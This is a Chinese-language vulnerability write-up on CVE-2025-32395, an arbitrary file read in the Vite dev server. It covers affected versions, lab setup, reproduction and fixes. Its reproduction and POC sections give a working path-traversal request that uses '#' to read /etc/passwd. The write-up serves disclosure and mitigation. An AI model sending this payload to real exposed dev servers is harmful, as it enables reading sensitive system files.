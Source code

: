 # 1、漏洞信息

Vite是一个现代化的前端构建工具，旨在提供更快的开发体验。它通过基于原生ES模块的开发服务器，在开发过程中实现极速热更新（HMR）。Vite在构建时使用了高度优化的打包工具，如esbuild，极大提高了构建速度。它支持多种前端框架（如React、Vue）并可以通过插件扩展功能。Vite的目标是简化前端开发工作流，并提升开发效率。



该漏洞影响`Node`和`Bun`环境下的开发服务器，攻击者可通过发送包含`#`字符的HTTP请求，绕过服务器的文件访问限制，返回任意文件内容。根据HTTP 1.1和HTTP 2规范，`#`不应出现在请求目标中，但`Node`和`Bun`并未内部拒绝这类无效请求，而是将其传递至用户端。Vite在处理请求时，未正确验证`req.url`中是否包含`#`，从而允许请求绕过`server.fs.deny`设置。此漏洞仅影响在非Deno环境中运行并显式暴露开发服务器（通过`--host`或`server.host`配置选项）的应用。



# 2、漏洞概述

| 漏洞名称  | 任意文件读取漏洞                                             |
| --------- | ------------------------------------------------------------ |
| 漏洞等级  | 中危                                                         |
| CVE编号   | CVE-2025-32395                                               |
| CNVD编号  | 暂无                                                         |
| CNNVD编号 | 暂无                                                         |
| 其他编号  | 暂无                                                         |
| 披露时间  | 2025-03-24                                                   |
| 分数      | 6.0                                                          |
| CVSS      | CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:P/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-32395              |



# 3、影响范围

```
6.2.0 <= Vite <= 6.2.5
6.1.0 <= Vite <= 6.1.4
6.0.0 <= Vite <= 6.0.14
5.0.0 <= Vite <= 5.4.17
Vite <= 4.5.12
```



# 4、环境搭建

1、安装node 和 npm

```
# 添加 NodeSource 仓库（安装 18.x 或 20.x 都可以）
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
# 安装 node 和 npm
sudo apt install -y nodejs
# 验证安装
node -v
npm -v
```

![image-20250427172243648](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271722855.png)



2、创建项目

```
npm create vite@latest
```

- 项目名回车默认：vite-project
- 选择框架 Vanilla
- 选择 JavaScript

![image-20250427172359323](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271723392.png)



3、手动降低Vite版本

```
cd vite-project
#手动降级vite到 6.2.4 版本
npm install vite@6.2.4 --save-dev
#查看版本
npx vite -v
```

![image-20250427172633279](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271726349.png)



4、新建 vite.config.js

```
// vite.config.js
export default {
  server: {
    host: true
  }
}
```

![image-20250427172941710](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271729816.png)



5、运行

```
npm install
npm run dev
```

![image-20250427173027804](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271730858.png)



6、浏览器访问

![image-20250427173109653](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271731734.png)



# 5、代码审计

https://github.com/vitejs/vite/commit/175a83909f02d3b554452a7bd02b9f340cdfef70



# 6、漏洞复现

```
/@fs/X/X/X/X/#/../../../../../etc/passwd
```

![image-20250427174327118](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271743402.png)



# 7、解决方案

## 7.1、临时缓解方案

如果暂时无法升级，可以采取以下措施降低风险：

限制网络访问：避免使用 `--host` 或设置 `server.host` 为 `localhost`，确保开发服务器仅限本地访问。

严格文件权限：确保敏感文件不可被 Vite 进程读取（例如通过操作系统权限控制）。



## 7.2、升级修复方案

Vite 官方已发布安全补丁，修复版本包括：

```
Vite >= 6.2.6
6.1.5 <= Vite < 6.2.0
6.0.15 <= Vite < 6.1.0
5.4.18 <= Vite < 6.0.0
4.5.13 <= Vite < 5.0.0
```

请尽快通过 `npm update vite` 或手动升级到以上版本以修复漏洞。



# 8、POC

```
/@fs/X/X/X/X/#/../../../../../etc/passwd http://127.0.0.1:5173
```



# 9、参考链接

https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4